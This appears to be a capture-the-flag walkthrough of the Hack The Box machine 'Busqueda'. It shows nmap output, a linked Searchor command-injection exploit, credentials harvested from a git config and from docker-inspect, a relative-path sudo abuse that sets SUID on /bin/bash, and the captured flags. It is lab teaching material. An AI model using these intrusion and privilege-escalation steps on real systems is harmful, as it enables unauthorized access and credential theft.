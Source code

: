 # Busqueda

![Untitled](Busqueda%201f10ec1f7aba4dd1aec0600f6c12c3c1/Untitled.jpeg)

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Busqueda]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_Result.txt 10.10.11.208
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-29 10:05 IST
Nmap scan report for searcher.htb (10.10.11.208)
Host is up (0.63s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Searcher
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed.
```

## Web Enumeration ⤵️

I loaded this port 80 and I got redirected to `searcher.htb` domain name so I set the `/etc/hosts` file in the attackers machine and got this simple site →

![Untitled](Busqueda%201f10ec1f7aba4dd1aec0600f6c12c3c1/Untitled.png)

I got this version of this CMS site `Searchor 2.4.0`  and I searched the exploit of it and got this exploit of `command Injection` through python.

[GitHub - nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection: Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection/tree/main)

Now I used this exploit and got the reverse shell on its system.

![Untitled](Busqueda%201f10ec1f7aba4dd1aec0600f6c12c3c1/Untitled%201.png)

Lets enumerate further →

```bash
svc@busqueda:/var/www/app/.git$ cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
svc@busqueda:/var/www/app/.git$
```

I got credentials of gitea site and a new domain name too so lets set and add in /etc/hosts.

I got into its account site →

![Untitled](Busqueda%201f10ec1f7aba4dd1aec0600f6c12c3c1/Untitled%202.png)

I also noticed the administrators account but can’t login with that same password .

I then used the cody password in as svc account password to see the `sudo -l` command to access root account.

```bash
svc@busqueda:~$ ls -al
total 36
drwxr-x--- 4 svc  svc  4096 Apr  3  2023 .
drwxr-xr-x 3 root root 4096 Dec 22  2022 ..
lrwxrwxrwx 1 root root    9 Feb 20  2023 .bash_history -> /dev/null
-rw-r--r-- 1 svc  svc   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 svc  svc  3771 Jan  6  2022 .bashrc
drwx------ 2 svc  svc  4096 Feb 28  2023 .cache
-rw-rw-r-- 1 svc  svc    76 Apr  3  2023 .gitconfig
drwxrwxr-x 5 svc  svc  4096 Jun 15  2022 .local
lrwxrwxrwx 1 root root    9 Apr  3  2023 .mysql_history -> /dev/null
-rw-r--r-- 1 svc  svc   807 Jan  6  2022 .profile
lrwxrwxrwx 1 root root    9 Feb 20  2023 .searchor-history.json -> /dev/null
-rw-r----- 1 root svc    33 Dec 28 16:47 user.txt
svc@busqueda:~$ cat user.txt
cat user.txt
ffcc2dd47b3d6d1c3a86566951886a72
svc@busqueda:~$
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
svc@busqueda:/var/www/app/.git$
```

I used this command and got 3 options →

```bash
svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py bacd
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

svc@busqueda:/tmp$
```

I used the `docker-inspect` command with format flag →

![Untitled](Busqueda%201f10ec1f7aba4dd1aec0600f6c12c3c1/Untitled%203.png)

so lets use this command →

```bash
svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py docker-ps                  
CONTAINER ID   IMAGE                COMMAND                  CREATED         STATUS        PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   11 months ago   Up 12 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   11 months ago   Up 12 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

I got 2 images of docker that can have its own configuration file so lets try it on mysql and I think I will get the credentials of mysql account →

```bash
svc@busqueda:/var/www/app/.git$ sudo python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' f84a
--format={"Hostname":"f84a6b33fb5a","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"3306/tcp":{},"33060/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.14","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.31-1.el8","MYSQL_SHELL_VERSION=8.0.31-1.el8"],"Cmd":["mysqld"],"Image":"mysql:8","Volumes":{"/var/lib/mysql":{}},"WorkingDir":"","Entrypoint":["docker-entrypoint.sh"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"1b3f25a702c351e42b82c1867f5761829ada67262ed4ab55276e50538c54792b","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"db","com.docker.compose.version":"1.29.2"}}

svc@busqueda:/var/www/app/.git$
```

Lets use its password on gitea site for administrators access and when  I tried it I got in →

![Untitled](Busqueda%201f10ec1f7aba4dd1aec0600f6c12c3c1/Untitled%204.png)

when I checked `system-checkup.py` file I noticed that the file path is not specified so I will be creating a file in any directory with name as `full-checkup.sh` file and insert the payload into the I will be payload to make `/bin/bash` as SUIDs permissions :

![Untitled](Busqueda%201f10ec1f7aba4dd1aec0600f6c12c3c1/Untitled%205.png)

Lets use the `sudo python3 /opt/scripts/system-checkup.py full-checkup` command →

```bash
svc@busqueda:/tmp$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
svc@busqueda:/tmp$ sudo python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:/tmp$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
svc@busqueda:/tmp$ bash -p
bash-5.1# ls -al
bash-5.1# cd /root
bash-5.1# ls -al
total 60
drwx------  9 root root 4096 Dec 28 16:47 .
drwxr-xr-x 19 root root 4096 Mar  1  2023 ..
lrwxrwxrwx  1 root root    9 Feb 20  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  3 root root 4096 Mar  1  2023 .cache
drwx------  3 root root 4096 Mar  1  2023 .config
-rw-r-----  1 root root  430 Apr  3  2023 ecosystem.config.js
-rw-r--r--  1 root root  104 Apr  3  2023 .gitconfig
drwxr-xr-x  3 root root 4096 Mar  1  2023 .local
-rw-------  1 root root   50 Feb 20  2023 .my.cnf
lrwxrwxrwx  1 root root    9 Feb 20  2023 .mysql_history -> /dev/null
drwxr-xr-x  4 root root 4096 Mar  1  2023 .npm
drwxr-xr-x  5 root root 4096 Dec 28 16:47 .pm2
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r-----  1 root root   33 Dec 28 16:47 root.txt
drwxr-xr-x  4 root root 4096 Apr  3  2023 scripts
drwx------  3 root root 4096 Mar  1  2023 snap
bash-5.1# whoami
root
bash-5.1# id
uid=1000(svc) gid=1000(svc) euid=0(root) groups=1000(svc)
bash-5.1# cat root.txt
2b58c418e01ad180b2c4f5c363e9bc8e
bash-5.1#
```

I am root now !!